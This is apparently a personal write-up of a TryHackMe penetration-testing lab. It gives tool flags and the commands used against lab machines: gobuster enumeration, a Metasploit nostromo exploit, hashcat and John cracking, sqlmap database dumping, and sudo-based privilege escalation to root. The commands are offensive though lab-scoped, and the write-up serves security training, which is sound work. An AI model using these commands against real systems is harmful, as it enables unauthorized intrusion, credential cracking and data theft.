 # Matheus Jesus 07-04-2020

## Try Hack Me - [CC: Pen Testing](https://tryhackme.com/room/ccpentesting)

### NMAP

* -p specify port
* -sn ping host
* -sU UDP
* -sC default scripts
* -o OS detection
* -sV version

#### Deploy machine

nmap -sC -sV -oN nmap_initial **IP**

http-title: Apache2 Ubuntu Default Page: It works

### NETCAT

* -l listen
* -v verbose
* -p port
* -e execute file
* -u UDP

#### nc -nlvp **PORT**

### GO Buster

#### Find directories

##### /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt

```sh
gobuster dir -u 10.10.183.224 -w /usr/share/wordlists/rockyou.txt
```

Found /secret

```sh
gobuster dir -u 10.10.183.224/secret -w /usr/share/wordlists/rockyou.txt -x xxa
```

Found /password.xxa

### Nikto

* Web Scanning
* Find vulnerabilities
* CVEs

#### nikto -h 10.10.183.234

### Metasploit

use **exploit/multi/http/nostromo_code_exec**

set RHOSTS and LHOST

exploit

#### Inside the exploit

ls /var/nostromo/htdocs

##### Spawn TTY

python -c 'import pty; pty.spawn("/bin/bash")'

cat /var/nostromo/htdocs/s3cretd1r/nice

### Hashcat

hashcat -m 0 -a 0 56ab24c15b72a457069c5ea42fcfc640 /usr/share/wordlists/rockyou.txt --force

MD5 56ab24c15b72a457069c5ea42fcfc640:happy

MD4 4bc9ae2b9236c2ad02d81491dcb51d5f:nootnoot

### John The Ripper

#### Whan can John decrypt ?

john --list=formats

#### Decrypting

john --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5 5d41402abc4b2a76b9719d911017c592

john --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA1 johnSHA1

### SQLMap

[SQL Injection Reference](https://owasp.org/www-community/attacks/SQL_Injection)

#### IP 10.10.151.139

sqlmap -u 10.10.151.139 --forms
The command will try to exploit the SQL with different injections.

This one found --dbms=mysql
and found 3 scripts for injections

#### DUMP

sqlmap -u 10.10.151.139 --dump --dbms=mysql --forms
The command will utilize the known exploits to access the database and retrieve all data.
It then dumps into a csv file.
There is a database called tests with a table msg and a table lol. (lol.csv and msg.csv)

### SMB

#### SMBMAP

smbmap -u "admin" -p "password" -H 10.10.10.10 -x ipconfig

#### SMBClient

Offers SMBMAP and a prompt

#### [Impacket](https://github.com/SecureAuthCorp/impacket)

Scripts for exploting windows machines over SMB and other protocols

### PRIVILEGE ESCALATION

#### General

[A bunch of tools and payloads for every stage of pentesting](https://github.com/swisskyrepo/PayloadsAllTheThings)

#### Linux

[a bit old but still worth looking at](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
[One of the most popular priv esc scripts](https://github.com/rebootuser/LinEnum)
[Another popular script](https://github.com/diego-treitos/linux-smart-enumeration/blob/master/lse.sh)
[A Script that's dedicated to searching for kernel exploits](https://github.com/mzet-/linux-exploit-suggester)
[I can not overstate the usefulness of this for priv esc, if a common binary has special permissions, you can use this site to see how to get root perms with it.](https://gtfobins.github.io)

#### Windows

[Dictates some very useful commands and methods to enumerate the host and gain intel](https://www.fuzzysecurity.com/tutorials/16.html)
[A bit old but still an incredibly useful script](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerUp)
[A general enumeration script](https://github.com/411Hall/JAWS)

### Final Exam

#### IP 10.10.118.41

#### GOBuster

gobuster dir -u 10.10.118.41 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
Found /secret

##### Stupid hint from walkthrough, there is a hidden secret.txt file inside secret folder

gobuster dir -u 10.10.118.41/secret -w /usr/share/wordlists/rockyou.txt -x txt
Found /secret/secret.txt

nyan:046385855FC9580393853D8E81F240B66FE9A7B8

#### Crack nyan password

hashid 046385855FC9580393853D8E81F240B66FE9A7B8 -> SHA1
hashcat -m 100 -a 0 046385855FC9580393853D8E81F240B66FE9A7B8 /usr/share/wordlists/rockyou.txt --force

nyan:nyan

#### SSH

ssh nyan@10.10.118.41
nyan

cat user.txt > supernootnoot

```sh
sudo -l

Matching Defaults entries for nyan on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nyan may run the following commands on ubuntu:
    (root) NOPASSWD: /bin/su
```

#### LinPeas

scp /opt/linPEAR/linpeas.sh nyan@10.10.118.41:/dev/shm

[+] User nyan may run the following commands on ubuntu:
    (root) NOPASSWD: /bin/su

```sh
User nyan may run the following commands on ubuntu:
    (root) NOPASSWD: /bin/su
nyan@ubuntu:/dev/shm$ sudo su
root@ubuntu:/dev/shm# whoami
root
```

nyan can run sudo su

as root -> cat /root/root.txt -> congratulations!!!!

